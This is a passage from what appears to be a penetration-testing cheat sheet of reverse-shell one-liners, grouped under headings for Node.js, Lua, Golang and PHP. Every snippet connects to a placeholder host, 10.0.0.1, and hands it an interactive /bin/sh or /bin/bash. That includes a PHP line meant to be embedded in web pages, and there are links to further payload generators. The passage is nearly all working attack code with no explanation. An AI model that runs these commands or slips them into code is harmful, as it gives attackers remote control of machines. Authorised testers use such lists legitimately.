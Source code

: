 ```
or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py

```

## <mark style="color:red;">LUA</mark>

Linux only

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Windows and Linux

```
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

## <mark style="color:red;">Golang</mark>

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

## <mark style="color:red;">PHP</mark>

### <mark style="color:orange;">php reverse shell</mark>

{% embed url="http://pentestmonkey.net/tools/web-shells/php-reverse-shell" %}

### <mark style="color:orange;">PHP in web pages</mark>

#### <mark style="color:green;">linux</mark>

```
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'")?>
```
